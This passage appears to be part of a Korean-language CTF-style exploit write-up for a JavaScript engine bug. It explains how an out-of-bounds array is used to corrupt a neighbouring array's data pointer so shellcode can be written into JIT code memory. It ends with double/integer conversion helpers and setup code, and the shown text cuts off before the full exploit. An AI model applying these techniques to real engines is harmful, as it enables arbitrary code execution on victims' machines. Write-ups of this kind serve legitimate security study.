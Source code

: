 
이제 셸 코드를 jitcode 주소에다가 박으면 된다.



먼저 OOB Array에서 Next Array의 데이터 주소를 조작하고 Next Array의 인덱스를 0, 1, 2 이렇게 올려가며 값을 쓰는 방법이 있다. 하지만 이 방법을 사용할 경우 두 가지의 단점이 존재한다.

1. 7byte밖에 컨트롤이 안된다.
2. 배열의 요소 수를 더 늘려서 생성해야 하는데, 이 경우 조금 떨어진 곳에 할당되서 추가적으로 for 문을 돌려서 leak하는 과정을 거쳐야한다.



8byte씩 값을 쓰고싶어도 소수로 들어가다보니 뭔가 문제가 있는지 7byte만 드가고 마지막은 0으로 고정이 되었으며 가장 큰 자리 숫자의 값이 어느정도 클 경우 가장 작은 자리 숫자의 값이 변해버리는 현상이 존재하였다.  근데 이 경우도 6byte 단위로 셸 코딩하면 다음과 같이 풀 수는 있긴하다.

![10](https://user-images.githubusercontent.com/43925259/67089060-b51ca600-f1e1-11e9-9bd8-a35ef167a987.PNG)

무조건 0이 붙는걸 add나 xor을 이용해 아무 레지스터에도 영향이 없도록 bypass하고 셸 코드를 짠 모습이다. 근데 이렇게 커스텀 셸 코드를 짜기보다 기존 셸 코드를 박는 방법이 더 편해서 그 방법을 소개할려고 한다.



작성한 코드는 다음과 같다.

```javascript
function dtoi(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer, 0, 8);

	f[0] = data;
	
	res = "";
	for (var i = 0; i < bytes.length; i++)
		res += ('0' + bytes[bytes.length - 1 - i].toString(16)).substr(-2);

	return parseInt(res, 16);
}

function itod(data)
{
	var buffer = new ArrayBuffer(8);
	var f = new Float64Array(buffer);
	var bytes = Uint8Array(buffer);

	var res = [];
	var hexed = ('0000000000000000' + data.toString(16)).substr(-16);
	for (var i = 0; i < 16; i+=2)
		res.push(parseInt(hexed.substr(i, 2), 16));
	
	bytes.set(res.reverse());
	return f[0];	
}

function hex(data)
{
	return '0x' + data.toString(16);
}

function get_shell()
{
	print('hi')
}
	
a = [1, 2]
b = [3, 4]

```